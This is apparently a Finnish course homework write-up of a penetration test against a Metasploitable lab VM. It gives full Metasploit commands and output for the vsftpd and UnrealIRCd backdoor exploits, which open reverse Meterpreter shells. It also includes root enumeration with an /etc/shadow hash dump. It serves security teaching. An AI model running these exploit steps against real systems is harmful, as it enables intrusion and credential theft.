

# h3 EternalHomework

## x) Lue/katso/kuuntele ja tiivistä.

### Mastering Metasploit
1) Paljon höpinää siitä, kuinka Metasploittia käytetään penauksessa, tiedonkeruusta haavoittuvuuksien tunnistamiseen ja exploiteista jälkiotteen hallintaan. Metasploitin eduiksi nimetään muun muassa automaattinen tietokantojen tallennus, sisäinen nmap-skannaus ja valmiiden exploittien löytäminen. 

### Mitä 'nmap -sn' tekee?
1) Tuo lippu kuuluu `HOST DISCOVERYN` piiriin ja mitä on luottamista niin se jättää porttiskannit pois ja keskittyy ainoastaan pingien skannaamiseen.<br>
Nmapin reference guidesta löytyy suoraan kohta:
```bash
-sn: Ping Scan - disable port scan
```

## b) Tallenna porttiskannauksen tuloksia Metasploitin tietokantoihin. Skannaa niin, että Metasploitable tulee mukaan. Kannattaa ottaa mukaan ainakin versioskannaus -sV (joka on banner grabbing plus).

1) Aloitetaan avaamalla Metasploit komennolla `msfconsole`.



2. Tarkistetaan tietokannan tilanne, joka tässä kohtaa kertoikin PostgreSQL:n puuttumisesta

```bash
msf > db_status
[*] postgresql selected, no connection
```

3. Poistutaan hetkeksi tuolta ja laitetaas postgresql päälle komennolla `sudo systemctl start postgresql`. Statuksella voidaan tarkistaa tila.

```bash
Active: active (exited)
```

4. Nyt näyttää paremmalta, eli `msfconsole` ja `db_status` uudelleen näyttääkin nyt oikein.

```bash
msf > db_status
[*] Connected to msf. Connection type: postgresql.
```

5. Luodaan tuonne uusi ympäristö nimeltä `h3`.

```bash
msf > workspace -a h3
[*] Added workspace: h3
[*] Workspace: h3
```

6. Nyt voidaan aloittaa varsinainen tekeminen, eli skannaillaas! Ajetaan `db_nmap -sV 192.168.56.103`.

```msf > db_nmap -sV 192.168.56.103
[*] Nmap: Starting Nmap 7.99 ( https://nmap.org ) at 2026-XX-XX XX:XX +0300
[*] Nmap: Nmap scan report for 192.168.56.103
[*] Nmap: Host is up (0.00041s latency).
[*] Nmap: Not shown: 977 closed tcp ports (reset)
[*] Nmap: PORT     STATE SERVICE     VERSION
[*] Nmap: 21/tcp   open  ftp         vsftpd 2.3.4
[*] Nmap: 22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
[*] Nmap: 23/tcp   open  telnet      Linux telnetd
[*] Nmap: 25/tcp   open  smtp        Postfix smtpd
[*] Nmap: 53/tcp   open  domain      ISC BIND 9.4.2
[*] Nmap: 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
[*] Nmap: 111/tcp  open  rpcbind     2 (RPC #100000)
[*] Nmap: 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 512/tcp  open  exec        netkit-rsh rexecd
[*] Nmap: 513/tcp  open  login       OpenBSD or Solaris rlogind
[*] Nmap: 514/tcp  open  shell       Netkit rshd
[*] Nmap: 1099/tcp open  java-rmi    GNU Classpath grmiregistry
[*] Nmap: 1524/tcp open  bindshell   Metasploitable root shell
[*] Nmap: 2049/tcp open  nfs         2-4 (RPC #100003)
[*] Nmap: 2121/tcp open  ftp         ProFTPD 1.3.1
[*] Nmap: 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
[*] Nmap: 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
[*] Nmap: 5900/tcp open  vnc         VNC (protocol 3.3)
[*] Nmap: 6000/tcp open  X11         (access denied)
[*] Nmap: 6667/tcp open  irc         UnrealIRCd
[*] Nmap: 8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
[*] Nmap: 8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
[*] Nmap: MAC Address: 08:00:27:16:FB:B1 (Oracle VirtualBox virtual NIC)
[*] Nmap: Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.57 seconds
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.26/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
```

## c) Tarkastele Metasploitin tietokantoihin tallennettuja tietoja komennoilla "hosts" ja "services". Kokeile suodattaa näitä listoja tai hakea niistä.

1. Nyt tarkastellaankin tietokantoihin tallennettuja tietoja. Aloitetaan komennolla `hosts`.

```bash
msf > hosts

Hosts
=====

address         mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---                ----  -------  ---------  -----  -------  ----  --------
192.168.56.103  08:00:27:16:fb:b1        Linux                      server
```

2. Seuraavaksi `services`.

```
msf > services
Services
========

host            port  proto  name         state  info                                        resource  parents
----            ----  -----  ----         -----  ----                                        --------  -------
192.168.56.103  21    tcp    ftp          open   vsftpd 2.3.4                                {}
192.168.56.103  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0  {}
192.168.56.103  23    tcp    telnet       open   Linux telnetd                               {}
192.168.56.103  25    tcp    smtp         open   Postfix smtpd                               {}
192.168.56.103  53    tcp    domain       open   ISC BIND 9.4.2                              {}
192.168.56.103  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2           {}
192.168.56.103  111   tcp    rpcbind      open   2 RPC #100000                               {}
192.168.56.103  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP   {}
192.168.56.103  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP   {}
192.168.56.103  512   tcp    exec         open   netkit-rsh rexecd                           {}
192.168.56.103  513   tcp    login        open   OpenBSD or Solaris rlogind                  {}
192.168.56.103  514   tcp    shell        open   Netkit rshd                                 {}
192.168.56.103  1099  tcp    java-rmi     open   GNU Classpath grmiregistry                  {}
192.168.56.103  1524  tcp    bindshell    open   Metasploitable root shell                   {}
192.168.56.103  2049  tcp    nfs          open   2-4 RPC #100003                             {}
192.168.56.103  2121  tcp    ftp          open   ProFTPD 1.3.1                               {}
192.168.56.103  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5                      {}
192.168.56.103  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7                 {}
192.168.56.103  5900  tcp    vnc          open   VNC protocol 3.3                            {}
192.168.56.103  6000  tcp    x11          open   access denied                               {}
192.168.56.103  6667  tcp    irc          open   UnrealIRCd                                  {}
192.168.56.103  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3                  {}
192.168.56.103  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1         {}
```

3. Hosts tosiaan näytti kohteen tietoja ja service palautti avoimet portit, palveluiden nimet ja versiot.

4. Kokeillaan vielä suodattaa tuloksia. Se onnistuu esimerkiksi `services -S bindshell`.

```bash
msf > services -S bindshell
Services
========

host            port  proto  name       state  info                       resource  parents
----            ----  -----  ----       -----  ----                       --------  -------
192.168.56.103  1524  tcp    bindshell  open   Metasploitable root shell  {}
```

## d) Internet famous. Etsi Metasploitablen mukana tulevista hyökkäyksistä (en: exploits; search) sellainen, joka on ollut julkisuudessa.

1. Höpötinkin viime raportissa hieman tuosta UnrealIRCd:stä, joten otetaan se tähän esimerkkiin mukaan takaisin.

2. Ajetaan siis yksinkertainen `search unreal` joka palauttaa meille:

```
msf > search unreal

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   1    \_ target: Automatic                      .                .          .      .
   2    \_ target: UT2004 Linux Build 3120        .                .          .      .
   3    \_ target: UT2004 Linux Build 3186        .                .          .      .
   4  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)
   5  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  Yes    UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/unix/irc/unreal_ircd_3281_backdoor
```

3. Sieltä se löytyy kohdasta 5, eli `unreal_ircd_3281_backdoor`. Aika tunnettu backdoori, jolle löytyy valmis exploitti. Tuosta löytyykin paljon keskustelua myös [täältä](https://forums.unrealircd.org/viewtopic.php?t=6562).

## e) Vertaile nmap:n omaa tiedostoon tallennusta (-oA foo) ja db_nmap:n tallennusta tietokantoihin. Mitkä ovat eri tiedostomuotojen ja Metasploitin tietokannan hyvät puolet?

1. Mitäs eroa näillä kahdella sitten on? Nmapin `-oA` ("output to all formats") tallentaa skannaustulokset kolmeen erilaiseen muotoon. Esimerkin `-oA foo` tapauksessa `foo.nmap`, `foo.xml` sekä `foo.gnmap`.

2. `dp_nmap` taas puolestaan tallentaa skannaustietoja Metasploitin tietokantaan ja tässä raportin esimerkissä PostgreSQL:ään. Kohteet tallentuu `hosts` ja palvelut tallentuu `services`.

3. Tämä tarkoittaa siis sitä, että `-oA foo` soveltuu erinomaisesti greppailuun ja tulosten soveltamiseen muiden työkalujen kanssa. Metasploitin `db_nmap` taas on osa isompaa prosessia Metasploitin sisällä, jossa koko homma jatkuu exploittien löytämisessä ja hallinnassa.

## f) Murtaudu Metasploitablen vsftpd-palveluun

1. Aletaan hommiin ja käydään varmistamassa oikea exploitti etsimällä vsftpd:tä:

```
msf > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  Yes    VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
```

2. Siellä se on toisena, eli otetaan tuon exploit käyttöön komennolla `use 1`.

3. Ruutuun pamahtaa pelottavan punaista väriä, mutta ihan hyvä pysyä hereillä. Varmistetaan, että meillä on oikea kohde asettamalla kohteen osoite.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.103
RHOSTS => 192.168.56.103
```

4. Käynnistetään exploitti komennolla `run`.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
[-] 192.168.56.103:21 - Msf::OptionValidateError One or more options failed to validate: LHOST.
```

5. Hups, ei toimikaan vielä. Näyttää siltä, että pitää asettaa vielä `LHOST` arvo erikseen. Tuo onnistuisi varmaan ihan `localhostina`, mutta pelataan varmanpäälle asettamalla se `192.168.56.101`.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] Started reverse TCP handler on 192.168.56.101:4444 
[+] 192.168.56.103:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.103:59280) at 2026-XX-XX XX:XX:XX +0300

meterpreter > 
```

6. Sisällä ollaan!

## g) Kerää levittäytymisessä (lateral movement) tarvittavaa tietoa metasploitablesta. Analysoi tiedot. Selitä, miten niitä voisi hyödyntää.

1. Aloitetaan komennoilla `getuid` ja `sysinfo`. Tuon jälkeen voidaan spawnata shelli ja kurkata sisään kohteeseen vähän tarkemmin.

```bash
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 4841 created.
Channel 1 created.
whoami
root
```

2. Kokeillaan seuraavaksi tosi perinteistä enumerointia.

```
sudo -l
User root may run the following commands on this host:
    (ALL) ALL
```
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
...
```
```
cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
...
```
```
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 08:00:27:16:fb:b1 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.103/24 brd 192.168.56.255 scope global eth0
    inet6 fe80::a00:27ff:fe16:fbb1/64 scope link 
       valid_lft forever preferred_lft forever
```
```
arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.56.100           ether   08:00:27:BC:E9:49   C                     eth0
192.168.56.101           ether   08:00:27:3E:3C:FD   C                     eth0
```

3. Sieltä löytyi kaikenlaista:
- `sudo -l` näytti että meillä on täysi hallinta kohteesta.
- `cat /etc/passwd` ja `cat /etc/shadow` paljastivat tilit ja salasanahashit. Tunkeutuja voi murtaa hashit ja pyrkiä kirjautumaan paljastuneisiin palveluihin.
- `ip a` näytti verkkotiedot, joilla selkeä kartoitus kohteen tilanteesta.
- `arp -n` kertoo lisätietoa verkosta, joka auttaa potentiaalisten seuraavien kohteiden tunnistamisessa.

## h) Murtaudu Metasploitableen jollain toisella tavalla.

1. Otetaan askel taaksepäin, `Ctrl+C` ja suljetaan meterpreter hetkeksi komennolla `background`. Komento `sessions` näyttää meille aktiiviset, taustalla vielä pyörivät exploitit.

```bash
meterpreter > background
[*] Backgrounding session 1...
msf exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                        Connection
  --  ----  ----                   -----------                        ----------
  1         meterpreter x86/linux  root @ metasploitable.localdomain  192.168.56.101:4444 -> 192.168.56.103:59280 (192.168.56.103)

msf exploit(unix/ftp/vsftpd_234_backdoor) > 
```

2. Murtaudutaan toisella tapaa ja taas kerran hei vaan UnrealIRCd.

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > search unreal

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   1    \_ target: Automatic                      .                .          .      .
   2    \_ target: UT2004 Linux Build 3120        .                .          .      .
   3    \_ target: UT2004 Linux Build 3186        .                .          .      .
   4  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)
   5  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  Yes    UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf exploit(unix/ftp/vsftpd_234_backdoor) > use 5
[*] Using configured payload cmd/linux/http/x86/meterpreter/reverse_tcp
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > 
```

3. Laitetaan samat tiedot kuin aikaisemmin ja ajetaan exploitti.

```bash
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.56.103
RHOSTS => 192.168.56.103
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] 192.168.56.103:6667 - Connected to 192.168.56.103:6667
[*] 192.168.56.103:6667 - Sending IRC backdoor command
[*] Sending stage (1062760 bytes) to 192.168.56.103
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.103:38120) at 2026-XX-XX XX:XX:XX +0300

meterpreter > 
```

4. Katsotaan toimiiko varmasti.

```
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 4983 created.
Channel 1 created.
whoami
root
```

5. Hyvältä näyttää.

## i) Demonstroi Meterpretrin ominaisuuksia.

1. Noita onkin tässä jo harjoitusten mittaan näytetty, kuten `getuid` ja `sysinfo`. Shellihän ollaan spawnattu jo pari kertaa komennolla `shell`.

2. Käytettävissä olevat komennot saa esiin ajamalla `?`.

3. Käytännössä täällä liikutaan kuin muuallakin tiedostojärjestelmässä:

```
meterpreter > pwd
/etc/unreal
meterpreter > ls
Listing: /etc/unreal
====================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100600/rw-------  1365    fil   2012-05-20 21:08:45 +0300  Donation
100600/rw-------  17992   fil   2012-05-20 21:08:45 +0300  LICENSE
040700/rwx------  4096    dir   2012-05-20 21:08:45 +0300  aliases
101204/-w----r--  1175    fil   2012-05-20 21:08:45 +0300  badwords.channel.conf
101204/-w----r--  1183    fil   2012-05-20 21:08:45 +0300  badwords.message.conf
101204/-w----r--  1121    fil   2012-05-20 21:08:45 +0300  badwords.quit.conf
100700/rwx------  242894  fil   2012-05-20 21:08:45 +0300  curl-ca-bundle.crt
100600/rw-------  1900    fil   2012-05-20 21:08:45 +0300  dccallow.conf
040700/rwx------  4096    dir   2012-05-20 21:08:45 +0300  doc
100700/rwx------  207     fil   2026-XX-XX XX:XX:XX +0300  heKTUCTzCO
101204/-w----r--  49552   fil   2012-05-20 21:08:45 +0300  help.conf
100600/rw-------  2444    fil   2026-XX-XX XX:XX:XX +0300  ircd.log
100600/rw-------  6       fil   2026-XX-XX XX:XX:XX +0300  ircd.pid
100600/rw-------  5       fil   2026-XX-XX XX:XX:XX +0300  ircd.tune
040700/rwx------  4096    dir   2012-05-20 21:08:45 +0300  modules
040700/rwx------  4096    dir   2012-05-20 21:08:45 +0300  networks
101204/-w----r--  5656    fil   2012-05-20 21:08:45 +0300  spamfilter.conf
040700/rwx------  4096    dir   2026-XX-XX XX:XX:XX +0300  tmp
100700/rwx------  4042    fil   2012-05-20 21:08:45 +0300  unreal
101204/-w----r--  3884    fil   2012-05-20 21:11:37 +0300  unrealircd.conf

meterpreter > 
```

## j) Tallenna shell-sessio tekstitiedostoon script-työkalulla (script -fa log001.txt) tai tmux:lla.

1. Aika yksiselitteistä. Tein uuden hakemiston nimeltä `h3`, jonne logi tallennetaan.

```bash
┌──(ilpakka㉿kali)-[~/Desktop/h3]
└─$ script -fa log001.txt             
Script started, output log file is 'log001.txt'.
```

2. Välissä tehdään taas samoja juttuja kuin aikaisemmin läksyjen aikana.

3. Lopuksi suljetaan tallennus komennolla `exit`.

```bash
┌──(ilpakka㉿kali)-[~/Desktop/h3]
└─$ exit
Script done.
```

## k) Pivot point. Laita kaikki harjoituksen tiedostot (script -fa, nmap -oA...) samaan kansioon. Hae sopiva pivot point (sovellus, versio, osoite, MAC-numero) 'grep -r' -komennolla. Keksi uskottava esimerkkikysymys, johon haet vastausta.

1. Ajetaan tuo `nmap -oA` vielä erikseen tänne läksyhakemistoon, niin kaikki löytyy tosiaan sitten samasta paikkaa.

```bash
┌──(ilpakka㉿kali)-[~/Desktop/h3]
└─$ ls -l   
total 40
-rw-r--r-- 1 root    root     1383 Apr XX XX:XX h3_scanni.gnmap
-rw-r--r-- 1 root    root     1791 Apr XX XX:XX h3_scanni.nmap
-rw-r--r-- 1 root    root    14339 Apr XX XX:XX h3_scanni.xml
-rw-rw-r-- 1 ilpakka ilpakka 12308 Apr XX XX:XX log001.txt
```

2. Kokeillaan seuraavaksi greppailla vaikka tuota unrealia komennolla `grep -r "vsftdp`.

```
┌──(ilpakka㉿kali)-[~/Desktop/h3]
└─$ grep -r "vsftpd"    
h3_scanni.nmap:21/tcp   open  ftp         vsftpd 2.3.4
h3_scanni.gnmap:Host: 192.168.56.103 () Ports: 21/open/tcp//ftp//vsftpd 2.3.4/, 22/open/tcp//ssh//OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)/, 23/open/tcp//telnet//Linux telnetd/, 25/open/tcp//smtp//Postfix smtpd/, 53/open/tcp//domain//ISC BIND 9.4.2/, 80/open/tcp//http//Apache httpd 2.2.8 ((Ubuntu) DAV|2)/, 111/open/tcp//rpcbind//2 (RPC #100000)/, 139/open/tcp//netbios-ssn//Samba smbd 3.X - 4.X (workgroup: WORKGROUP)/, 445/open/tcp//netbios-ssn//Samba smbd 3.X - 4.X (workgroup: WORKGROUP)/, 512/open/tcp//exec//netkit-rsh rexecd/, 513/open/tcp//login//OpenBSD or Solaris rlogind/, 514/open/tcp//shell//Netkit rshd/, 1099/open/tcp//java-rmi//GNU Classpath grmiregistry/, 1524/open/tcp//bindshell//Metasploitable root shell/, 2049/open/tcp//nfs//2-4 (RPC #100003)/, 2121/open/tcp//ftp//ProFTPD 1.3.1/, 3306/open/tcp//mysql//MySQL 5.0.51a-3ubuntu5/, 5432/open/tcp//postgresql//PostgreSQL DB 8.3.0 - 8.3.7/, 5900/open/tcp//vnc//VNC (protocol 3.3)/, 6000/open/tcp//X11//(access denied)/, 6667/open/tcp//irc//UnrealIRCd/, 8009/open/tcp//ajp13//Apache Jserv (Protocol v1.3)/, 8180/open/tcp//http//Apache Tomcat|Coyote JSP engine 1.1/  Ignored State: closed (977)
h3_scanni.xml:<port protocol="tcp" portid="21"><state state="open" reason="syn-ack" reason_ttl="64"/><service name="ftp" product="vsftpd" version="2.3.4" ostype="Unix" method="probed" conf="10"><cpe>cpe:/a:vsftpd:vsftpd:2.3.4</cpe></service></port>
log001.txt:msf > use exploit/unix/ftp/vsftpd_234_backdoor
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.103
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 192.168.56.101
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > run
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > sessions
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > session
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.103
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 192.168.56.101
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > run
log001.txt:msf exploit(unix/ftp/vsftpd_234_backdoor) > exit
```

3. Aika karsean näköinen mötikkä ja tuo olisi ihan fiksua hieman puhdistaa vaikka awkilla, mutta ei ole nyt tehtävän kannalta tarpeen.

4. Seuraavaksi vielä uskottava esimerkkikysymys.. jos vaikka "mistä tiedostoista löytyy tietoa `vsftpd`-palvelusta ja sen versiosta, jota voisi hyödyntää tunnetun backdoorin saavuttamiseen?"

## l) Attaaack! Mitä Mitre Attack taktiikoita ja tekniikoita käytit tässä harjoituksessa?

- Reconnaissance:
    - Active Scanning (T1595)
    - Vulnerability Scanning (T1595.002)
- Initial Access:
    - Exploit Public-Facing Application (T1190)
- Execution:
    - Command and Scripting Interpreter: Unix Shell (T1059.004)
- Discovery:
    - System Information Discovery (T1082)
    - System Owner/User Discovery (T1033)
    - System Network Configuration Discovery (T1016)
    - File and Directory Discovery (T1083)
    - System Network Connections Discovery (T1049)
- Credential Access:
    - OS Credential Dumping (T1003.008)
- Lateral Movement (tavallaan):
    - Remote System Discovery (T1018)

## Lähteet
- Tero Karvinen 2026. Tunkeutumistestaus. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/. Luettu: 11.4.2026.
- Jaswal, N. 2020. Mastering Metasploit - Chapter 1: Approaching a Penetration Test Using Metasploit. 4. painos. Packt Publishing. Birmingham. Luettavissa: https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/B15076_01_Final_ASB_ePub.xhtml#_idParaDest-31. Luettu: 11.4.2026.
- Nmap.org. Nmap Network Scanning / Chapter 15. Nmap Reference Guide / Options Summary. Luettavissa: https://svn.nmap.org/nmap/docs/nmap.usage.txt Luettu: 11.4.2026.
- UnrealIRCd Forums. 12.6.2010. Some versions of Unreal3.2.8.1.tar.gz contain a backdoor. Luettavissa: https://forums.unrealircd.org/viewtopic.php?t=6562. Luettu: 12.4.2026.
- MITRE ATT&CK 2025. ATT&CK Matrix for Enterprise. Luettavissa: https://attack.mitre.org/. Luettu: 12.4.2026.